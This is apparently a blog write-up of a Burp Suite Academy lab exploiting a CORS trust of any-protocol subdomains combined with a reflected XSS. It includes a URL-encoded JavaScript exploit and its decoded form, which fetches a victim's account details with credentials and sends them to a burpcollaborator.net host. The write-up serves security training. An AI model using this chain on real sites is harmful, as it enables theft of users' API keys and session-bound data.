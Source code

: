 ```yaml
---
title: Exploiting XSS via CORS trust relationships
description: Example test article that contains basic HTML elements for text formatting on the Web.
date: 2020-01-09
tags:
  - "CORS"
  - "XSS"
  - "Burp Suite Academy"
---
```


Continuing the Burp Suite Academy series. Today, we will go through CORS exploitations exercises... 
<!--more-->

The web application is the same online store which allows a user to log-in, change his e-mail address and retrieve his API key. This time around, the server only trusts requests originating from subdomains of the app.

```http
GET /api/requestApiKey HTTP/1.1
Host: <instanceId>.web-security-academy.net
Origin: https://subdomain.<instanceId>.web-security-academy.net
Cookie: sessionid=...
```

Response: 
```
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
Content-Type: application/json
X-XSS-Protection: 0
Connection: close
Content-Length: 89

{
  "username": "******",
  "email": "",
  "apikey": "********************************"
}
```

Further testing reveals that the server is configured to accept **any protocol** as long as the request comes from a subdomain of the main application `<instanceId>.web-security-academy.net`.

This version of the application has a new function which allows a user to check the remaining stock of a given item. The request looks like this:

```http
GET /?productId=1&storeId=1 HTTP/1.1
Host: stock.<instanceId>.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: ...
Accept: ...
Accept-Encoding: ...
Accept-Language: ...
Connection: close
```

The paramater `productId` is not validated nor sanitized, and is vulnerable to reflected Cross-site Scripting. 

```
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=utf-8
Set-Cookie: session=5t8SM9hnfSxy91QpvWQ4o7rPMK8pg05H; Secure; HttpOnly
X-XSS-Protection: 0
Connection: close
Content-Length: 76

<h4>ERROR</h4>Invalid product ID: <script>alert("document.domain");</script>
```

Since the `stock.<...>` subdomain is running on `HTTP` (not `HTTPs`), the `session` cookies will never be transmitted to the browser. Therefore, our XSS will not be able to retrieve any of those. Right now, the impact of the vulnerability seems quite limited. Except, it is not !

We saw earlier that the server is configured to pass session cookies for any (cross-origin) request coming from a subdomain of the app, **regardless** of the protocol.

```
Access-Control-Allow-Origin: <protocol>://subdomain.<instanceId>.web-security-academy.net
Access-Control-Allow-Credentials: true
```

Therefore, it is possible for us to leverage this CORS (mis)configuration to bypass the limitations of Same Origin Policy (SOP) and retrieve the API key with a cross-origin request. Consider the following attack scenario:

1. Attacker hosts a malicious file in a server of his control
2. Attacker send a link to his exploit to Victim (who is already logged-in the main app)
3. Victim accesses the link and is redirected to `stock.<instanceId>.web-security-academy.net`
4. Victim's browser triggers the `rXSS` payload when rendering the page
5. Victim's browser requests his `apikey` on the main app. At this point, the `Origin` of this request will be a trusted subdomain with protocol `http`. Therefore the server CORS config will allow the request to go through
6. Victim's browser sends the `apikey` to the Attacker's server
7. Et voilà !
   
This the the payload I used to solve the corresponding exercise in BS Academy. It follows the aforementioned steps one-by-one. You can use the exploit server provided in the lab and conveniently force the Victim to visit it. In reality, the last part would require a little bit of social-engineering :-).

```html
<script>
let burpInstanceUrl = "<Your generated instance URL>";
/* We URL-encode our payload to prevent any hiccups when the browser will attempt render and execute the reflected XSS */
let xssPayload = "%3c%73%63%72%69%70%74%3e%6c%65%74%20%78%68%72%20%3d%20%6e%65%77%20%58%4d%4c%48%74%74%70%52%65%71%75%65%73%74%28%29%3b%78%68%72%2e%6f%70%65%6e%28%22%47%45%54%22%2c%22%68%74%74%70%73%3a%2f%2f%61%63%65%35%31%66%63%39%31%65%65%32%36%32%65%33%38%30%62%32%35%31%38%65%30%30%62%63%30%30%64%31%2e%77%65%62%2d%73%65%63%75%72%69%74%79%2d%61%63%61%64%65%6d%79%2e%6e%65%74%2f%61%63%63%6f%75%6e%74%44%65%74%61%69%6c%73%22%2c%74%72%75%65%29%3b%78%68%72%2e%77%69%74%68%43%72%65%64%65%6e%74%69%61%6c%73%3d%74%72%75%65%3b%78%68%72%2e%6f%6e%6c%6f%61%64%3d%72%65%71%4c%69%73%74%65%6e%65%72%3b%78%68%72%2e%73%65%6e%64%28%29%3b%66%75%6e%63%74%69%6f%6e%20%72%65%71%4c%69%73%74%65%6e%65%72%28%29%7b%6c%6f%63%61%74%69%6f%6e%3d%22%68%74%74%70%3a%2f%2f%74%64%61%6b%67%35%66%79%6b%78%62%38%72%6b%64%70%62%32%63%70%69%6b%61%6c%6a%63%70%36%64%76%2e%62%75%72%70%63%6f%6c%6c%61%62%6f%72%61%74%6f%72%2e%6e%65%74%2f%3f%22%2b%74%68%69%73%2e%72%65%73%70%6f%6e%73%65%54%65%78%74%3b%7d%3c%2f%73%63%72%69%70%74%3e";
/* Step 2: Leverage the reflected XSS vulnerability in the subdomain to make an AJAX call and recover the victim's API key */
let trustedUrl = `http://stock.${burpInstanceUrl}.web-security-academy.net/?productId=${xssPayload}&storeId=1`;
/*  Step 1: Redirect the victim to the subdomain whitelisted in CORS configuration */
document.location = trustedUrl;
</script>
```

```html
<!-- Decoded xssPayload -->
<script>
  let xhr = new XMLHttpRequest();
  xhr.open(
    "GET",
    "https://${your_instance_url}.web-security-academy.net/accountDetails",
    true
  );
  xhr.withCredentials = true;
  xhr.onload = reqListener;
  xhr.send();
  function reqListener() {
    location =
      "http://subdomain.burpcollaborator.net/?" +
      this.responseText;
  }
</script>

```

Tags: #cors,#burp-suite-academy
